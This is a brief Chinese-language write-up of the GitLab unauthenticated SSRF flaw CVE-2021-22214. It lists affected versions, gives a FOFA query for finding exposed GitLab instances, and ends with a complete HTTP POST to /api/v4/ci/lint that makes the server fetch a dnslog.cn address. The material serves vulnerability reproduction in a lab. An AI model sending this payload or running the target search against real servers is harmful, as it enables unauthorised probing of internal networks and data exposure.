



# GitLab SSRF漏洞 CVE-2021-22214

## 漏洞描述

GitLab存在前台未授权SSRF漏洞，未授权的攻击者也可以利用该漏洞执行SSRF攻击（CVE-2021-22214）。该漏洞源于对用户提供数据的验证不足，远程攻击者可通过发送特殊构造的 HTTP 请求，欺骗应用程序向任意系统发起请求。攻击者成功利用该漏洞可获得敏感数据的访问权限或向其他服务器发送恶意请求。

## 漏洞影响

```
Gitlab > 10.5
```

## 网络测绘

```
app="GitLab"
```

## 环境搭建

http://vulfocus.fofa.so/




## 漏洞复现

登录页面如下





发送请求包

```plain
POST /api/v4/ci/lint HTTP/1.1
Host: 
User-Agent: python-requests/2.25.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Type: application/json
Content-Length: 111

{"include_merged_yaml": true, "content": "include:\n  remote: http://965qaw.dnslog.cn/api/v1/targets?test.yml"}
```


